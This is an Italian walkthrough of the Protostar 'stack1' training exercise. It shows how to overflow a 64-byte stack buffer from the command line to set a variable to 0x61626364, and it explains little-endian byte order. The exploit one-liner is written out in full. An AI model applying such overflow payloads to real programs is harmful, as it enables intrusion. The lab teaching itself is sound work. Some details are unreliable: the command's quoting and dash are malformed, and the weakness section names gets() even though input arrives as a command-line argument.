 # Protostar_stack 1 - Buffer overflow

## Obiettivo della sfida
Impostare la variabile _modified_ al valore **0x61626364** a tempo di esecuzione

## Strategia di attacco
Mandiamo in escuzione il **stack1**
```bash
> cd /opt/protostar/bin
> ./stack1 abc
# stampa errore
Try again, you got 0x00000000
```
### Cosa fare
Riempire _buffer_ con 64 caratteri e alla fine appendere i 4 corrispondenti a 0x61626364 essi corrispondono alla stringa **"abcd"**

## Come sfruttare le vulnerabilità
Proviamo ad eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "abcd"'' 
# stampa errore
Try again, you got 0x64636261
```
Anche se l'input è stato inserito correttamente appare a rovescio, questo avviene perchè l'architettura Intel è **Little Endian**!
### Istruzioni da eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "dcba"'' 
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`
